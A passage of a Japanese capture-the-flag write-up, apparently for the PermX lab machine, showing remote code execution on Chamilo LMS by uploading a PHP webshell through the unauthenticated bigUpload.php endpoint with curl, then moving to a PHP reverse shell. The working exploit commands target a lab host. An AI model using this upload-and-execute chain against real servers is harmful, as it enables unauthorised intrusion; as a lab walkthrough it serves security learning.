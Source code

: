 まず `/main/inc/lib/javascript/bigupload/files/` フォルダがあることを確認する

![](screenshot/image-20240707140100866.png)

攻撃マシンで以下のコマンドを実行する

```
echo '<?php system("id"); ?>' > rce.php
```

```
curl -F 'bigUploadFile=@rce.php''http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

```
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

`id` コマンドの実行に成功した

![](screenshot/image-20240707140914353.png)

しかしこのスクリプトでリバースシェルをいくつか送信してみたが機能しなかった

`php-reverse-shell.php` を使用する

![](screenshot/image-20240707141154838.png)

ファイルをアップロードしリクエストを送信すると

![](screenshot/image-20240707141258164.png)
